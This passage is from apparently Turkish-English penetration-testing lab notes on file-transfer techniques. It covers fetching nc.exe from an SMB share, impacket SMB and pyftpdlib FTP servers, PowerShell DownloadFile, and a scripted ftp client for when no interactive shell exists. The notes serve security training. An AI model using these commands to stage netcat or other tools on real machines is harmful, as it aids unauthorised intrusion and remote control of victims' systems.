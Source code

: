 ```cmd-session
copy \\192.168.220.133\share\nc.exe
```



### 15-  SMB İle File Transfer (Kimlik Bilgileriyle)

##### 1- Create the SMB Server

```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```


##### 2-**SMB Sunucusunu Kullanıcı Adı ve Parola ile Mount Etme** ve İndirme

```cmd-session
net use n: \\192.168.220.133\share /user:test test
```

```cmd-session
copy n:\nc.exe
```


### 16- FTP ile File Transfer 


##### 1-  Installing the FTP Server Python3 Module - pyftpdlib
```shell-session
sudo pip3 install pyftpdlib
```

##### 2- Python3 FTP Sunucusu Kurma

```shell-session
sudo python3 -m pyftpdlib --port 21
```

##### 3- PowerShell Kullanarak FTP Sunucusundan Dosya Aktarma

```powershell-session
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

##### 4-**FTP Client için bir Komut Dosyası Oluşturun ve Hedef Dosyayı İndirin** Etkileşimli bir Shell olmadığında

```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye
```
